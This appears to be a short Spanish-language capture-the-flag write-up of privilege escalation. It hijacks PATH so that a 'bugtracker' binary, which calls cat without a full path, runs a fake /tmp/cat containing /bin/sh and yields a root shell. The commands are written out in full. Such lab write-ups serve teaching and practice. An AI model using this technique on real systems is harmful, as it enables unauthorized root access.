 # bugtracker --help 

##### La herramienta acepta entradas del usuario como nombre del archivo que se leerá usando el comando cat; sin embargo, no especifica la ruta completa al archivo cat y, por lo tanto, podríamos aprovechar esto.

![[2023-10-09_01-18.png]]
### Navegaremos al directorio /tmp y crearemos un archivo llamado cat con el siguiente contenido: 
```css
	/bin/sh
```

### ahora otorgamos permisos de ejecución  
```css
	chmod +x cat
```

##### Para explotar esto, podemos añadir el directorio /tmp a la variable de entorno PATH
```c
	export PATH=/tmp:$PATH
```

##### haciendo echo $PATH podemos ver 
```c
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
##### podemos ver que el directorio /tmp esta alojado dentro de la variable path

#### hacemos un nuevo llamado al bugtracker 
```css
bugtracker --help
```
###### seleccionamos la opción numero 2
![[2023-10-09_01-23.png]]
### WE ARE ROOT.